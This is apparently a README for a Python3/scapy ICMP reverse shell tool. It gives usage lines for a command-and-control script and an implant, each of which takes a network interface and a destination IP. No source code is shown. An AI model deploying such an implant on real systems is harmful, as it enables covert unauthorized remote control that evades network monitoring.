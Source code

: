 # Python3 ICMP reverse shell 
ICMP reverse shell with python3 scapy

Usage:

icmp-cnc.py [-h] -i INTERFACE -d DESTINATION_IP (Command and Control)

./icmpdoor.py [-h] -i INTERFACE -d DESTINATION_IP (Implant)

optional arguments:

  -h, --help            show this help message and exit
  
  -i INTERFACE, --interface INTERFACE
  
                        Listener (virtual) Network Interface (e.g. eth0)
                        
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
  
                        Destination IP address
